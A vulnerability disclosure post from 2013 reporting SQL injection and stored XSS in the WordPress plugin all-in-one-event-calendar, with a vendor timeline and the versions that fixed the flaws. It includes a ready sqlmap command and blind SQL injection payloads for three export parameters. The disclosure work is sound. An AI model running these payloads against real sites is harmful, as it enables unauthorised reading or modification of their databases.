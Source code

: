 +++
Description = "SQL-Injection and XSS in All-in-one-event-calendar Wordpress Plugin"
title = "SQL-Injection and XSS in All-in-one-event-calendar Wordpress Plugin"
date = "2013-11-14T22:05:00+01:00"
+++

During a recent security audit I found multiple vulnerabilities in the Wordpress plugin "all-in-one-event-calendar".
There is a lite version provided through the Wordpress site ([http://wordpress.org/plugins/all-in-one-event-calendar/](http://wordpress.org/plugins/all-in-one-event-calendar/)), and a standard version provided through a third party site ([http://time.ly/](http://time.ly/)).
Both versions were tested and are vulnerable to the reported issues.

PS: There is also a paid pro version. This was not tested but it's likely also vulnerable to the mentioned issues.

<!--more-->

**Tested versions:**

Lite Plugin: 1.9

Standard Plugin: 1.10

**SQL-Injection through export function**

The plugin offers an export function to export the event to either iCal format or Google Calender.

The Parameters "ai1ec_cat_ids", "ai1ec_post_ids" and "ai1ec_tag_ids" are all vulnerable to SQL-Injection.
By exploiting this vulnerability, a user is able to read or modify the whole Wordpress Database, or even more depending on the database configuration.

**Vulnerable code:**

[http://plugins.trac.wordpress.org/browser/all-in-one-event-calendar/tags/1.9/app/helper/class-ai1ec-calendar-helper.php#L1146](http://plugins.trac.wordpress.org/browser/all-in-one-event-calendar/tags/1.9/app/helper/class-ai1ec-calendar-helper.php#L1146)

**Proof of concept:**

To exploit this SQL-Injection through sqlmap ([https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)):
Prerequisite: You need at least one event

```
python sqlmap.py --url "http://IP/wordpress/?plugin=all-in-one-event-calendar&amp;controller=ai1ec_exporter_controller&amp;action=export_events&amp;cb=5032359096&amp;ai1ec_cat_ids=&amp;ai1ec_tag_ids=&amp;ai1ec_post_ids=" -p ai1ec_tag_ids,ai1ec_post_ids,ai1ec_cat_ids --risk 3 --level 3 --dbms mysql
```

**sqlmap Output:**

```
Place: GET
Parameter: ai1ec_cat_ids
Type: boolean-based blind
Title: OR boolean-based blind - WHERE or HAVING clause
Payload: plugin=all-in-one-event-calendar&amp;controller=ai1ec_exporter_controller&amp;action=export_events&amp;cb=5032359096&amp;ai1ec_cat_ids=-8478) OR (5188=5188) AND (1391=1391&amp;ai1ec_tag_ids=&amp;ai1ec_post_ids=
Type: AND/OR time-based blind
Title: MySQL &gt; 5.0.11 OR time-based blind
Payload: plugin=all-in-one-event-calendar&amp;controller=ai1ec_exporter_controller&amp;action=export_events&amp;cb=5032359096&amp;ai1ec_cat_ids=-2330) OR 3582=SLEEP(5) AND (8356=8356&amp;ai1ec_tag_ids=&amp;ai1ec_post_ids=

Place: GET
Parameter: ai1ec_post_ids
Type: boolean-based blind
Title: OR boolean-based blind - WHERE or HAVING clause
Payload: plugin=all-in-one-event-calendar&amp;controller=ai1ec_exporter_controller&amp;action=export_events&amp;cb=5032359096&amp;ai1ec_cat_ids=&amp;ai1ec_tag_ids=&amp;ai1ec_post_ids=-8080) OR (8936=8936) AND (6501=6501
Type: AND/OR time-based blind
Title: MySQL &gt; 5.0.11 OR time-based blind
Payload: plugin=all-in-one-event-calendar&amp;controller=ai1ec_exporter_controller&amp;action=export_events&amp;cb=5032359096&amp;ai1ec_cat_ids=&amp;ai1ec_tag_ids=&amp;ai1ec_post_ids=-2544) OR 1170=SLEEP(5) AND (6134=6134

Place: GET
Parameter: ai1ec_tag_ids
Type: boolean-based blind
Title: OR boolean-based blind - WHERE or HAVING clause
Payload: plugin=all-in-one-event-calendar&amp;controller=ai1ec_exporter_controller&amp;action=export_events&amp;cb=5032359096&amp;ai1ec_cat_ids=&amp;ai1ec_tag_ids=-6274) OR (5133=5133) AND (6779=6779&amp;ai1ec_post_ids=
Type: AND/OR time-based blind
Title: MySQL &gt; 5.0.11 OR time-based blind
Payload: plugin=all-in-one-event-calendar&amp;controller=ai1ec_exporter_controller&amp;action=export_events&amp;cb=5032359096&amp;ai1ec_cat_ids=&amp;ai1ec_tag_ids=-1181) OR 8944=SLEEP(5) AND (4367=4367&amp;ai1ec_post_ids=
```

This proves, that all 3 Parameters are vulnerable to SQL-Injection. Due to some Parameter processing before the Statement is executed (e.g. split by comma), you need to write a script to exploit this vulnerability, or use a tool like sqlmap.

**Cross Site Scripting (XSS) in location details:**

When entering Javascript code in the fields "Venue Name" and "Address" when creating a new event, it is possible to execute script code in the context of the user viewing the event.

All values should be properly escaped before they are output to HTML. This issue is present through all default Calendar Themes.

**All Issues were fixed in the following versions:**

_Lite version:_ 1.10

_Standard version:_ 1.10.1-standard

**Timeline:**

03.07.2013: Informed time.ly, secunia and wordpress about the vulnerabilities

03.07.2013: Received mail from time.ly saying they forwarded it to their developers

23.07.2013: Asked for an ETA because the issue is still present

23.07.2013: time.ly submitted fixed plugin to wordpress repository

24.07.2013: lite Plugin fixed ([http://plugins.trac.wordpress.org/changeset/745755/all-in-one-event-calendar/tags/1.10](http://plugins.trac.wordpress.org/changeset/745755/all-in-one-event-calendar/tags/1.10))

03.10.2013: Standard Plugin fixed ([http://time.ly/1-10-1-now-available-for-some-standard-users/](http://time.ly/1-10-1-now-available-for-some-standard-users/))

**Additional URLs:**
_Secunia Advisory:_ [http://secunia.com/advisories/54038/](http://secunia.com/advisories/54038/)
